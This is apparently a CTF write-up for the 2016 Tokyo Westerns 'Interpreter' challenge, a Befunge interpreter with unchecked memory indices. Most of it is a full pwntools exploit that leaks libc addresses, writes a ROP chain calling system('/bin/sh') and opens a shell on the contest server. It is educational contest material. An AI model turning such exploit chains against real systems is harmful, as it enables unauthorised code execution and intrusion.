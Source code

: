 ```yaml
---
layout: post
redirect_from:
  - /blog/2016/09/05/twctf-2016-interpreter/
date: "2016-09-05T12:58:30+09:00"
tags: [ "ctf", "writeup", "pwn", "mmactf", "twctf", "esolang", "befunge" ]
"target_url": [ "https://score.ctf.westerns.tokyo/problems/24" ]
---
```


# Tokyo Westerns/MMA CTF 2nd 2016: Interpreter

`befunge.7z`の文字列だけで脆弱性も攻撃方法も推測できてしまって楽勝って感じだったのに、bug埋めたのでflag出すのには手間取ってしまった。

## solution

The binary is an intepreter of ordinary [befunge](https://esolangs.org/wiki/Befunge).
The memory space is allocated as fixed length array and the indices is not checked.
So you can read/write anywhere using `g`/`p`.

## similar problems

-   brainfuck intepreter of <http://golf.shinh.org/>
    -   32bit, pwnable
-   brainfuck intepreter of <http://yukicoder.me/>
    -   64bit, unsolvable?

## implementation

<https://github.com/niklasb/libc-database> was useful to detect the version of libc.

``` sh
$ ./find __libc_start_main 0x7efe2f127e50 alarm 0x7efe2f1c6b90
ubuntu-trusty-amd64-libc6 (id libc6_2.19-0ubuntu6.9_amd64)
```

``` python
#!/usr/bin/env python2
import time
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='pwn1.chal.ctf.westerns.tokyo')
parser.add_argument('port', nargs='?', default=62839, type=int)
args = parser.parse_args()
context.log_level = 'debug'

libc_start_main_got = 0x201f70
alarm_got = 0x201f68
fixedpoint = 0x202008
program = 0x202040
stack = 0x202820
pop_rdi_ret = 0x120c
height = 25
width  = 80

## ubuntu-trusty-amd64-libc6
libc_start_main_ofs = 0x21e50
environ_ofs = 0x3c14a0
system_ofs = 0x46590
bin_sh_ofs = 0x17c8c3

## ubuntu-xenial-amd64-libc6
# libc_start_main_ofs = 0x20740
# environ_ofs = 0x3c5f98
# system_ofs = 0x45380
# bin_sh_ofs = 0x18c58b

def push(n):
    if n < 0:
        return '0' + push(- n) + '-'
    elif 0 <= n <= 9:
        return str(n)
    else:
        return push(n // 9) + '9*' + str(n % 9) + '+'

p = remote(args.host, args.port)

payloads = []
payloads += [ '> ~ v' ]
payloads += [ '^p01<' ]
payloads += [ '' ] * (height - len(payloads))
for payload in payloads:
    p.recvuntil('> ')
    p.sendline(payload)

def read(addr, base=0x0):
    p.send(push(addr - (base + program)))
    for i in range(8):
        p.send(':' + push(i) + '+0g,')
    p.send('$')
    time.sleep(1)
    return u64(p.recv(8))

def write(addr, s, base=0x0):
    p.send(push(addr - (base + program)))
    for i, c in enumerate(s):
        p.send(':' + push(i) + '+~' + c + '\\0p')
    p.send('$')

program_base = read(fixedpoint) - fixedpoint
log.info('program base: 0x%08x', program_base)

libc_start_main = read(libc_start_main_got)
log.info('__libc_start_main: 0x%08x', libc_start_main)
alarm = read(alarm_got)
log.info('alarm: 0x%08x', alarm)
libc_base = libc_start_main - libc_start_main_ofs
log.info('libc base: 0x%08x', libc_base)

environ = libc_base + environ_ofs
log.info('__environ: 0x%08x', environ)
environ_value = read(environ, base=program_base)
log.info('*__environ: 0x%08x', environ_value)

payload = ''
payload += p64(program_base + pop_rdi_ret)
payload += p64(libc_base + bin_sh_ofs)
payload += p64(libc_base + system_ofs)
write(environ_value - 240, payload, base=program_base)

p.send(' ' * 1000)

time.sleep(1)
p.sendline('id')
p.interactive()
```
